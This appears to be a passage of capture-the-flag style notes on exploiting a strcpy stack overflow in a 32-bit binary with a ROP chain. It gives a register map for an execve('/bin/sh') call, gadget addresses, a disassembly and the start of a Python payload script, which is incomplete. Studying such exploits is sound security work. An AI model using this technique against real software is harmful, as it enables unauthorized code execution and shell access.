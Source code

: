 
**map**
```
eax = 0
ecx = 0
edx = &bin/sh
ebx = exeve address
esp = esp
ebp = 
esi = 
edi = pop_3_gadget
```

###  `pushal`
```
0x5563704c : pushal ; ret
```


## implementation
1. overflowing to first ROP
	![[Pasted image 20231115114350.png]]
	it seems that we got extra 2 bytes. 
	```
	Dump of assembler code for function vuln:
   0x08048518 <+0>:     push   ebp
   0x08048519 <+1>:     mov    ebp,esp
   0x0804851b <+3>:     sub    esp,0x28
   0x0804851e <+6>:     sub    esp,0x8
   0x08048521 <+9>:     push   DWORD PTR [ebp+0x8]
   0x08048524 <+12>:    lea    eax,[ebp-0x1c]
   0x08048527 <+15>:    push   eax
   0x08048528 <+16>:    call   0x8048380 <strcpy@plt>
   0x0804852d <+21>:    add    esp,0x10
   0x08048530 <+24>:    nop
   0x08048531 <+25>:    leave
   0x08048532 <+26>:    ret
	```
	 as you can see we write to `ebp - 0x1c` which is 28.
2. continuing to the next ROP
	after the first gadget we will use the **higher** address on the stack, meaning the next value on the payload.

## writeups
```python
## VARIATION 1 ###

import struct
 
 
 def p(addr):
     return str(struct.pack("<I",addr))
 
 
 payload =  "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8A" #junk
 payload += "B" * 4 # ebp overflow
 
 # just move the seat aka stack grooming
 payload += p(0x555f3555) # move target address to edx
 payload += p(0x5556682b)
 payload += "A" * 4
 
 
```